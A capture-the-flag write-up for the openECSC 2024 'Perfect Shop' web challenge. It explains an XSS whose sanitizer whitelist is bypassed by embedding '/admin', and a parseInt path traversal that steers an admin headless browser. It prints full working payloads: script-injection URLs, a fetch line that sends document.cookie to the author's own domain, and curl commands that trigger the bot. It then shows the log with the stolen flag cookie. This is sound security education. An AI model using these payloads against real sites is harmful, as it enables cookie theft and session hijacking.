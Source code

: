 # Perfect Shop

## Description

```
Do you like perfect things? Check out my new online shop!

Site: http://perfectshop.challs.open.ecsc2024.it
```

## Provided Files

- `perfectshop.zip`

## Solve Process

The source code provided shows that this is a express app that communicates with a headless browser.
Searching the source code, we stumble across a few things.

```js
app.get('/search', (req, res) => {
    let query = req.query.q || '';

    if (query.length > 50) {
        res.locals.errormsg = 'Search query is too long';
        query = '';
    }

    const result = products.filter(product => product.name.toLowerCase().includes(query.toLowerCase()));

    res.render('search', { products: result, query: query });
});
```

A search endpoint, with a query directly templated to the page, which points us to a possible `xSS` vulnerability. We can also see a 50 character limit, which will be important later.

So lets confirm our theory and try something trivial.

```
http://perfectshop.challs.open.ecsc2024.it/search?q=%3Cscript%3Ealert(1)%3C/script%3E
```

Aaaaaaaaand it doesn't work sadly. We can see why when further searching the source code.

```js
const sanitizer = require("perfect-express-sanitizer");

// --- snip ---

app.use(sanitizer.clean({ xss: true }, ["/admin"]));
```

This is a sanitizer implementation for express, interestingly with a whitelist entry set to `/admin`. Let's search for it online and examine the implementation a bit.

```js
function middleware(
  options = {},
  whiteList = [],
  only = ["body", "params", "headers", "query"]
) {
  return (req, res, next) => {
    only.forEach((k) => {
      if (req[k] && !whiteList.some((v) => req.url.trim().includes(v))) {
        console.log(req.url)
        console.log(whiteList)
        req[k] = sanitize.prepareSanitize(req[k], options);
      }
    });
    next();
  };
}
```

And surely enough it stands out that the whitelist is checked with a simple `includes()` statement. This means that we could theoretically place `/admin` anywhere in our payload and it should technically work. So lets try it.

```
http://perfectshop.challs.open.ecsc2024.it/search?q=%3Cimg%20src=/admin%22%20onerror=%22alert(%271%27)%22/%3E
```

And this suddenly fires an alert. Great, now we know that this sanitizer is able to be bypassed.

Let's examine the source code a bit further.

```js
app.post('/report', (req, res) => {
    const id = parseInt(req.body.id);
        if (isNaN(id) || id < 0 || id >= products.length) {
        res.locals.errormsg = 'Invalid product ID';
        res.render('report', { products: products });
        return;
    }

    fetch(`http://${HEADLESS_HOST}/`, { 
        method: 'POST', 
        headers: { 'Content-Type': 'application/json', 'X-Auth': HEADLESS_AUTH },
        body: JSON.stringify({ 
            actions: [
                {
                    type: 'request',
                    url: `http://${WEB_DOM}/`,
                },
                {
                    type: 'set-cookie',
                    name: 'flag',
                    value: FLAG
                },
                {
                    type: 'request',
                    url: `http://${WEB_DOM}/product/${req.body.id}`
                },
                {
                    "type": "sleep",
                    "time": 1
                }
            ]
         })
```

A cookie is set containing the flag, which is probably the thing we want to aquire.

The id is parsed as an int, which is pretty cool since that is easily trickable since JavaScript will parse everything as a `int` even if there is a payload attached to it.

```bash
node > console.log(parseInt('1/../../some/payload'));
1
```

The confidence to exploit this comes from the direct inclusion of the `req.body.id` in the `url` property. This allows us to navigate to the webroot and to the exploitable `/search`.

So we would need to modify our payload a bit to accomodate for this, as well as to tell the script to send us cookies, by accessing `document.cookies`.

```
http://perfectshop.challs.open.ecsc2024.it/product/1/../../search?q=%3Cscript%3Efetch(`http://k1f0.dev/?cookies=${document.cookie}`)%3C/script%3E
```

But hold up, this totally runs into the 50 character limit right? Of course it does. Luckily though, I own a relatively short domain, which we'll use to load our payload remotely.

I basically uploaded a file named simply `admin` into my webroot, which contains the payload needed for sending me the cookie data back.

```js
fetch(`http://k1f0.dev/?cookies=${document.cookie}`)
```

Now we only need to load this using the `<script>` attribute and we should be good to go. I crafted a humongous `curl` command for this purpose.

```bash
curl -v -X POST \
-d "id=1/../../search?q=%3Cscript%20src='https://k1f0.dev/admin'%3E%3C/script%3E&message=/admin" \
http://perfectshop.challs.open.ecsc2024.it/report
```

But when trying this, it still doesn'T work. Remember the sanitizer from before? Since this is a new query, we also need to add our workaround to make the sanitizer think we are whitelisted properly.

This can be done simply by prefixing the correct entry and trying again

```bash
curl -v -X POST \
-d "id=1/../../search?q=%3Cscript%20src='https://k1f0.dev/admin'%3E%3C/script%3E&message=/admin" \
http://perfectshop.challs.open.ecsc2024.it/report?q=/admin
```

And surely enough, once this went through, I saw a new entry in my servers `NGINX` log file.

```
- - "GET /?cookies=openECSC%7B4in't_s0_p3rfect_aft3r_4ll%7D HTTP/1.1" 200 3607 "http://perfectshop.challs.open.ecsc2024.it/" "firefox-headless-agent"
```

And that is a solve.
